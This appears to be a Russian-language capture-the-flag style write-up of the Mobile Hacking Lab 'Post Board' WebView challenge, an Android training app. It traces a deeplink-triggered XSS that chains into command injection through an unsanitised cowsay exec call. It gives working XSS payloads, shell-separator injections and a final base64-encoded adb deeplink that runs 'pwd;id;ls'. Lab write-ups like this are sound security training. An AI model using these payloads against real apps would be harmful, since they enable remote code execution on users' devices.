Задание - [Post Board - WebView Challenge](https://www.mobilehackinglab.com/path-player?courseid=lab-webview&unit=656b629c96c9f725630099baUnit)

**Базовый функционал**
Основной функционал приложения - это постить заметки в markdown:



Весь функционал построен на использовании WebView и javaScript интерфейсов, разметка страницы с функционалом находится в `assets/index.html`, его рад ниже:



Здесь используется js интерфейс `WebAppInterface`, у которого есть следующие методы:
- `getMessages` - возвращает json объект со списком заметок из `WebAppCache`, который хранит их списком.



- `postMarkdownMessage` - заменяет md синтаксис на html и сохраняет полученную заметку в кэш `WebAppCache`.
- `postCowsayMessage` - в основном функционале не используется, добавляет в заметки результат вызова скрипта `asstes/cowsay.sh`.



**Обработка диплинка**

Кроме основного функционала в интерфейсе приложения, оно способно вызываться с помощью диплинка `postboard://postmessage` и кроме этого, основная и единственная активность является экспортируемой. Код обработки интента при вызове активности с помощью диплинка:



Здесь из интента извлекается URI и проверяется, соответствует ли он схеме:

```
postboard://postmessage/<url_safe_base64>
```

Затем путь, полученный в base64, декодируется в URL_SAFE режиме (второй аргумент, цифра 8) и передается как текст заметки с использованием метода js интерфейса `postMarkdownMessage`.

Если при этом было вызвано какое-либо исключение, оно передается в метод `postCowsayMessage`.

**Анализ runCowsay**

Метод `runCowsay()` является основной точкой входа для RCE уязвимости, т.к. метод принимает строку, которая никак предварительно не обрабатывается и передается как аргумент скрипту `cowsay`, который является аналогом обычного скрипта из Linux. Код метода:



 Инъекцию в этот метод можно проводить двумя способами:
 - инъектировать  команду в сам скрипт cowsay: `cowsay $(ls)`
 - Т.к. ввод передается напрямую в exec,  использовать разделители команд `;` , `||`, `&&`:  `cowsay hello; ls`

Т.е. пример js кода с эксплуатацией RCE такой:
```
WebAppInterface.postCowsayMessage("$(ls)")
```

**Эскплуатация XSS**

Для проверки на xss для удобства лучше использовать вызов активности с моощью диплинка:
```
am start -a android.intent.action.VIEW -d "postboard://postmessage/<url_safe_base64>
```

Обычный пейлоад не сработает, т.к. будет видоизменён в процессе обработки регулярными выражениями в `postMarkdownMessage`:
```
<script>alert(1)</script>
```
В этом случае заметка просто останется пустой.

> Стоит отметить, что тестирование с помощью функций alert() или promt() становится доступным благодаря тому, что при инициализации WebView устанавливается WebAppChromeClient

Далее перебирал различные пейлоады [отсюда](https://github.com/payloadbox/xss-payload-list), первый отработавший успешно такой:
```
<image src=1 href=1 onerror="javascript:alert(1)"></image>
```

Результат:



Однако, когда я использовал вызов js интерфйеса в пейлоаде:
```
WebAppInterface.postCowsayMessage('hello')
```

Отображение текста cowsay не произошло:


то же касается и тех случаев, когда я просто вводил невалидный base64 текст, чтобы вызвать исключение и произошел вызов cowsay:



К примеру, с таким диплинком:
```
postboard://postmessage/PGlt+++
```

Заметка останется пустой, хотя в ней должен оказаться результат вызова cowsay:


**Предыдущее тесты поводились на версии API 30 и 32, при использовании API все заработало**

Пример уведомления при невалидном base64:



Чтобы в изначальном пейлоаде для XSS не использовались кавычки, решил использовать:
```
<image/src/onerror=prompt(8)>
```

при таком пейлоаде:
```
<image/src/onerror=WebAppInterface.postCowsayMessage('hello')>
```

Результат успешный:



Конечный пейлоад для эксплуатации RCE:
```
<image/src/onerror=WebAppInterface.postCowsayMessage("h;pwd;id;ls")>
```

Команда для adb:
```
am start -a android.intent.action.VIEW -d "postboard://postmessage/PGltYWdlL3NyYy9vbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgiaDtwd2Q7aWQ7bHMiKT4"
```

Результат:



RCE выполняется успешно, можно, к примеру, прокинуть реверс-шелл.

>В процессе тестирования надо не забывать очищать заметки, т.к. каждый раз при обновлении заметок код пейлоадов будет выполнятся, и заметки с вредоноснымкодом будут множатся геометрически


